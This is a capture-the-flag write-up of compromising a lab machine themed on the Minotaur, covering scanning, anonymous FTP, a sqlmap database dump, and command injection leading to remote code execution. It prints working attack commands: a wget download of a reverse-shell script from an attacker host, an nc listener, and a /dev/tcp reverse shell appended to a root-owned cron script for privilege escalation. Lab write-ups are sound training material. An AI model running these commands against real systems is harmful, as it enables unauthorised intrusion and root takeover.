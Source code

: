 At first an initial scan with rustscan:

rustscan -a 10.10.139.83 --ulimit 5000

shows 4 ports open

PICTURE_RUSTSCAN

After that, let's throw nmap at it:

nmap -sV -sC 10.10.139.83

PIC_NMAP

While ffuf is doing its thing, I'll take a look at the ftp which allows anonymous login..

In the ftp directories is some stuff, it looks like:

PIC_FTP1

Let's explore :)
PIC_FTP2

Aaaand we got the fist flag!!!

While ffuf is still running, I'm going to take a look at the website:

PIC_WEB1

No matter what I typed in, there seems to happen no response what so ever. Let's take a look at the source:
(The hyperlinks are not what they seem, but I made a trip to Twitter, lol)

The source code reveals:

PIC_WEB2

A look at "view-source:http://10.10.139.83/js/login.js" also reveals nothing of value..

In the meantime ffuf managed to get done:

PIC_FFUF

Going quickly through the directories, we can find something interesting in the logs directory.
It looks like a captured Burp request which reveals credentials.
---------------------------------------------------------------------------------
POST /minotaur/minotaur-box/login.php HTTP/1.1
Host: 127.0.0.1
Content-Length: 36
sec-ch-ua: "Chromium";v="93", " Not;A Brand";v="99"
Accept: */*
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
sec-ch-ua-mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/93.0.4577.82 Safari/537.36
sec-ch-ua-platform: "Windows"
Origin: http://127.0.0.1
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: http://127.0.0.1/minotaur/minotaur-box/login.html
Accept-Encoding: gzip, deflate
Accept-Language: de-DE,de;q=0.9,en-US;q=0.8,en;q=0.7
Cookie: PHPSESSID=8co2rbqdli7itj8f566c61nkhv
Connection: close

email=<hidden>&password=<hidden>

---------------------------------------------------------------------------------

Because I got no response from the login, I turned to the ftp with these very creds, but this trip led to nowhere..
Out of pure desperateness, I turned to the login page again, and got lucky :)

PIC_LANDING1

So far we have two names: Daedalus and Minotaur. Plus we can appearantly search for people and creatures.
Let's do that.
PIC_LANDING2

Seems to be some kind of database thingy.. Let's catch the request with Burp and let sqlmap deal with the heavy load.

sqlmap -r req_master.txt --dbs --batch --time-sec=3

And we get something:

PIC_SQLMAP1

Dump it:

PIC_SQLMAP2


PIC_SQLMAP3


As the newly found user with admin rights is in the same table as Daedalus, with whom we were able to login 
before, let's if we get in with these creds, after a short trip to Crackstation (https://crackstation.net)..

After we log in, we can find the flag in the upper left corner of the site. Besides that, there is a
hyperlink "Secret_Stuff". That sounds interesting enough to follow that.

PIC_LANDING3

Which leads to the "secret echo panel". There we can input stuff and it gets reflected on the page. Twice. 
No matter what I was trying in regards to command injection, it didn't get me command execution. 
This site led me finally to using backticks, instead of quotation marks.
https://book.hacktricks.xyz/pentesting-web/command-injection

PIC_RCE1

So we got rce, let's explore that. And we can find flag3 in the user home directorywhich we can read.
PIC_RCE1

Let's get a shell then. I had to try a few things which led me to:

`/usr/bin/wget <IP>/rev.txt -O /tmp/rev.sh`
Content:
PIC_REV1
Set up a local server to serve the shell
python3 -m http.server 80

Then set up a listener 
nc -lnvp 9001
and execute the freshly downloaded reverse shell on the target:
`bash /tmp/rev.sh`

PIC_REV2

After running linpeash and searching around for a bit, I got a tip. There's a file in the root directory
that we can write to. Plus it is owned by root.. So let's abuse that and pack a rev-shell 
in that very file :)

PIC_REV3

echo 'sh -i >& /dev/tcp/<IP>/6666 0>&1' >> timer.sh

Start another listener and it will connect without any further doing. Now you're root _tataaaa_
So let's go and get the final flag in the /root directory:

PIC_FINAL











































